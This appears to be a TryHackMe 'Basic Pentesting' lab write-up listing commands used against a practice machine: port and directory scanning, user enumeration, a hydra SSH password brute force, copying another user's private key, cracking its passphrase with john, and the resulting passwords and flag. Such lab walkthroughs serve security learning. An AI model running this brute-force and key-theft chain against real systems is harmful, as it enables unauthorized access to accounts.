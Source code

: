 # THM - Basic Pentesting
- IP Target: `10.10.59.172`

## Scanning
```bash
→ ping -c 4 10.10.59.172

→ nmap -sC -sV -oN nmap.txt 10.10.59.172
```

## Brute Froce
```bash
→ gobuster dir -u http://10.10.59.172/ -w /usr/share/wordlists/dirb/common.txt
# /development: hidden directory.

→ enum4linux 10.10.59.172
# Username: kay, jan

→ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.59.172
# login: jan, password: armando
```

## Login jan user account
```bash
→ ssh jan@10.10.59.172
# Found kay's private key from /home/kay/.ssh/id_rsa.
# Copy to local machine file name: kay-id_rsa.txt
```

## Privilage Escalation
```bash
→ chmod 600 kay-id_rsa.txt
# Can read and write by owner only.

→ /usr/share/john/ssh2john.py kay-id_rsa.txt > forjohn.txt
# Use to extract password hashes from SSH (Secure Shell) private key files.

→ sudo john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
# Crack the hash password: beeswax.     

→ ssh -i kay-id_rsa.txt kay@10.10.59.172

→ cat pass.bak 
# Flag: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```